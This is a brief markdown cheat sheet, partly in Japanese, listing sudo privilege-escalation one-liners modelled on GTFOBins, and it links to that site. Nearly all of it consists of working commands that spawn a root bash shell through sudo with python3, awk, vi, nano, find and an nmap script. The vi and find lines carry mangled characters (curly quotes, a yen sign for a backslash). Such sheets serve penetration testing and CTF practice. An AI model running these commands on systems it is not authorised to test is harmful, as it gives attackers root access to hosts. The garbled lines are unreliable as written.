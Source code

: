 ## sudo -l
#### python
`sudo python3 -c 'import os; os.system("/bin/bash")'`
#### awk
`sudo awk 'BEGIN {system("/bin/bash")}'`
#### vi
`sudo vi –c ‘:!bash’`
#### nano
- nanoの場合は、エディタ起動後、^R^X（[Ctrl]+R、[Ctrl]+X）により、コマンドの実行結果を挿入
```bash
sudo nano
^R^X # ^R^X（[Ctrl]+R、[Ctrl]+X）
reset; bash 1>&0 2>&0
```
#### find
`sudo find / -exec /bin/bash ¥;`
#### nmap
- `cat shell.nse`
  ```
  os.execute("/bin/bash")
  ```
  `sudo nmap --script ./shell.nse localhost`
#### 検索用
`https://gtfobins.github.io/#+sudo`

  
